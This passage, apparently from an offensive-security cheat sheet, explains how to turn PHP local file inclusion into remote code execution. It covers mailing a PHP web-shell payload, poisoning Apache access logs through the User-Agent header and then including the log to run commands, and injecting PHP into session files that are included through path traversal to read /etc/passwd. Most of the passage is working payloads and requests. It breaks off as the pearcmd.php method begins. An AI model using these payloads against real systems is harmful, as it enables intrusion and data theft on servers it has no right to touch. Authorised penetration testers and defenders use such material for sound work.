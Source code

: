 In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```


### RCE via Apache logs

Poison the User-Agent in access logs:

```
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.

```
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```


## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/sessions/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## LFI to RCE via PHP PEARCMD

PEAR is a framework and distribution system for reusable PHP components. By default `pearcmd.php` is installed in every Docker PHP image from [hub.docker.com](https://hub.docker.com/_/php) in `/usr/local/lib/php/pearcmd.php`. 
